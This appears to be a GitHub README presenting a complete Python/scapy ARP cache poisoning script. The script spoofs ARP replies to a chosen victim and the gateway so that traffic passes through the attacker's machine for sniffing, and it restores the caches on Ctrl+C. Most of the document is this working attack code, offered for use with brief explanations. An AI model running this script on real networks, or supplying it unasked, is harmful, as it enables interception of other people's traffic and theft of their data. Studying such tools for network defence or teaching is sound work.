



<p align="left">
 
</p>


## This is a python script that poisons the ARP cache of a victim and the gateway/router to MITM and sniff data succesfully and resets the cache back upon hitting "CTRL+C".

-We sent the spoofed packets using the scapy.ARP() method. (Setting opcode=2 as a response)

-We print dynamically using the print function as follows: `print("\r CONTENT, end="")` (set a null char as delimiter rather than the default \n)

-Implemented a restore function to restore the arp cache.


### Code:

```python
#!/usr/bin/env python
import sys
import re
import scapy.all as scapy
import time
import re
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target_ip", dest="target_ip", help="Target IP address to MITM")
    parser.add_argument("-g", "--gateway_ip", dest="gateway_ip", help="Gateway/router's IP address to MITM")
    options = parser.parse_args()
    if not options.target_ip:
        # code to handle error
        parser.error("[-] Please specify an target ip, use --help for info.")
    if not options.gateway_ip:
         # code to handle error
         parser.error("[-] Please specify a gateway ip, use --help for info.")
    return options

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    clients_list = ""
    for element in answered_list:
        # use show method to view packet contents.
        clients_list += element[1].hwsrc
    return clients_list

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    # use scapy.ls(scapy.ARP) to view fields
    # op=2 --> opcode for response , hwsrc automatically set to attackers
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    # count set to 4 to make sure cache is restored
    scapy.send(packet, count=4, verbose=False)

sent_packet_count = 0
options = get_arguments()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

print("""
    
    ███████████████████████████████████████████████
    ██▀▄─██▄─▄▄▀█▄─▄▄─█─▄▄▄▄█▄─▄▄─█─▄▄─█─▄▄─█▄─▄▄─█
    ██─▀─███─▄─▄██─▄▄▄█▄▄▄▄─██─▄▄▄█─██─█─██─██─▄███
    ▀▄▄▀▄▄▀▄▄▀▄▄▀▄▄▄▀▀▀▄▄▄▄▄▀▄▄▄▀▀▀▄▄▄▄▀▄▄▄▄▀▄▄▄▀▀▀
    
""")

try:
    while(True):
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packet_count += 2
        # Dynamic printing
        print("\r[+] Packets sent: " + str(sent_packet_count), end="")
        #time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Resetting ARP tables back to normal!")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)

```

### Output:

*Attacker:*



*Target arp cache after cache poisoning:*



*Target arp cache after hitting "CTRL+C" to restore cache:*




